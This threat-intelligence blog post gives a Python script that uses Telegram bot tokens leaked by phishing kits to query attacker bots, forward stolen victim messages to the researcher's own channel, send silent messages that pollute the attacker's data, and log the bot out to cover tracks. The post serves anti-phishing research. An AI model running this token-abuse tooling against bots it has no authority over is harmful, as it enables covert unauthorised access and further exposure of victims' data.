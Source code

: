 ```yaml
---
layout: threat-intel-default
title:  "Telegram Enumeration"
date:   2025-08-07
description: "qwerty"
author: "RedDuck"
tags: threat-intel
---
```


<style>
    pre{
  counter-reset:line-numbering;
  background:#2c3e50;
  padding:20px 20px 20px 20px;
  width:650px;
  color:#ecf0f1;
  line-height:140%;
    .line::before {
      content: counter(line-numbering);
      counter-increment: line-numbering;
      padding-right: 1em;
      /* space after numbers */
      padding-left:8px;
      width: 1.5em;
      text-align: right;
      opacity: 0.5;
      color:white;
  }
}
</style>

Many phishing sites rely on the Telegram bot API to exfiltrate victim data. Oftentimes, eCriminals are either
<ul>
    <li> deploying half-baked phishing kits they've purchased from somebody with a username akin to "__1337__phisher", or </li>
    <li> inexperienced and looking to make a quick profit with minimal effort (and likely more than a pinch of vibe-coding) </li>
</ul>

Fortunately for us, this means they often leave their Telegram bot API tokens publicly accessible, either through
<ul>
    <li> hard-coding it into the site's page source </li>
    <li> exposing it in POST requests and responses </li>
</ul>

With this token (and oftentimes, the accompanying channel ID to which the information is sent), we can use the native Telegram bot API to enumerate data pertaining to the attacker's operation, and what data they have stolen so far.

THE FOLLOWING WORKFLOWS SHOULD NOT BE USED AGAINST NON-ATTACKER CHANNELS. WE ONLY ANALYZE SITES SUBMITTED TO PHISHTANK.ORG, AND ARE CONFIMRED TO BE VALID PHISHES.

<pre>
    from datetime import datetime
    import requests
    import time
    import os

    USING = "BOT_TOKEN1"

    BOT_TOKENS = {"BOT_TOKEN1": "{BOT-TOKEN}"}

    CHANNEL_IDS = {"BOT_TOKEN1": "{BOT-CHANNEL}"}

    MY_CHANNEL_IDS = {"BOT_TOKEN1": "{YOUR-CHANNEL}"}

    URL = f"https://api.telegram.org/{BOT_TOKENS[USING]}/" 
</pre>

<pre>

# Workflow that will gather data specific to the channel that the attackers are using to exfiltrate data. If the channel ID is not known, you can use 
# determine this value by interacting with the attacker's bot; the response you receive will likely contain the ID of the channel used to exfiltrate victim data
channel_endpoints = {
    "getChatAdministrators":f"getChatAdministrators?chat_id={CHANNEL_IDS[USING]}",
    "getChat":f"getChat?chat_id={CHANNEL_IDS[USING]}",
    "getChatMembersCount":f"getChatMembersCount?chat_id={CHANNEL_IDS[USING]}",
    "createChatInviteLink":f"createChatInviteLink?chat_id={CHANNEL_IDS[USING]}",
}

</pre>

<pre>

# Workflow that will gather data on the bot, such as 
# - Name
# - Recent updates
# - Description
# and other general information that can be used later.
gen_endpoints = {
    "getUpdates":"getUpdates",
    "getWebhookInfo":"getWebhookInfo",
    "getMe":"getMe",
    "getMyCommands":"getMyCommands",
    "getMyName":"getMyName",
    "getMyDescription":"getMyDescription",
    "getAvailableGifts":"getAvailableGifts",
    "getWebhookInfo":"getWebhookInfo",
}

</pre>

<pre>

# Workflow that will remove evidence of your interaction with the attacker's bot. These endpoints will
# - Leave the chat you created to enumerate stolen data
# - Close the bot
# - Log the bot out
clear_tracks = {
    "leaveChat":f"leaveChat?chat_id={MY_CHANNEL_IDS[USING]}",
    "close":f"close",
    "logOut":f"logOut"
}

</pre>

<pre>

# Workflow that will send data specified by you to the attacker's channel. By default, this workflow sends empty messages, and disables notifications, so as to minimize the likelihood that the attacker will immediately detect any anomolous behavior. You may use this workflow to pollute the attacker's
# dataset, enumerate channel ID(s), etc.
sendMessage = {
    "sendMessage":f"sendMessage?text=''&chat_id={MY_CHANNEL_IDS[USING]}&disable_notification=True"
}

</pre>

<pre>

# Workflow to enumerate what data the attackers have stolen. 
forwardMessage = {
    "forwardMessage": f"forwardMessage?chat_id={MY_CHANNEL_IDS[USING]}&from_chat_id={CHANNEL_IDS[USING]}&message_id="
}

</pre>

<pre>

folder = f"{USING}-{datetime.today().strftime('%m-%d-%y')}"
try:
    os.mkdir(f"{folder}")
except:
    print("Folder already exists")
os.chdir(f"{folder}")

</pre>

<pre>

# This method will enumerate the contents of the attacker's chat, according to the message IDS that are 
# entered into X and Y (e.g., (0,1000) will gather the messages with IDs between 0 and 999).
def enumerate():
    for inc in range(X,Y): 
        for key in forwardMessage.keys():
            looking_at = key
            response = requests.get(URL+forwardMessage[looking_at]+str(inc))
            if "Bad Request: message to forward not found" not in response.text:
                with open(f"{looking_at}.json","a") as a:
                    a.write(f"{response.text}\n")

</pre>

<pre>

# This method queries the specific endpoint name that you enter as a parameter, so long as it's dictionary
# value exists elsewhere in the code.
def query_endpoint(endpoint):
    for key in endpoint.keys():
        looking_at = key
        response = requests.get(URL+endpoint[looking_at])
        print(response.text)
        if '{"ok":true' in response.text:
            with open(f"{looking_at}.json","a") as a:
                a.write(f"{response.text}\n")

</pre>

<pre>
# Gathers preliminary data on the attacker's Telegram channel, as well as information about the bot 
# itself.
def initial_recon():
    query_endpoint(gen_endpoints)
    query_endpoint(channel_endpoints)

</pre>

<pre>

# Define which stage of operations you want to execute (reconnaissance,enumeration, or clearing evidence
# of involvement)

STAGE = "#"

match STAGE:
    case "1":
        initial_recon()
    case "2":
        enumerate()
    case "3":
        query_endpoint(clear_tracks)

os.chdir("..")
</pre>

<script>
$("pre").html(function (index, html) {
    return html.replace(/^(.*)$/mg, "<span 
class=\"line\">$1</span>")
});
</script>
